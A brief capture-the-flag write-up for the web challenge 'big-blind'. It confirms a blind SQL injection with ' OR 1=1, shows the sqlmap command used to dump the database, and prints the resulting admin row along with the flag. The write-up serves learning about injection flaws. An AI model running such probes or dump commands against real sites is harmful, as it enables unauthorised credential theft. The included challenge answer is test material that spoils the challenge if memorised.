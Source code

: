 # big-blind (70 solves, 474 points)

## Description:
[https://big-blind.hsc.tf](https://big-blind.hsc.tf)

## Solution:
Guessing from the challenge name, this is probably some sort of blind injection. Trying ' OR 1=1, confirms it's a SQL injection. Now, you could write your own injection script but because I'm lazy and a script kiddie, I used sqlmap. After a couple minutes, it was able to using a timing attack to find the flag.
```
luke@parrot:~/Downloads$ sqlmap https://big-blind.hsc.tf/ --form --batch --dump --no-cast
...
...
+-----------------------------+--------+
| pass                        | user   |
+-----------------------------+--------+
| flag{any_info_is_good_info} | admin  |
+-----------------------------+--------+
```
## Flag:
`flag{any_info_is_good_info}`
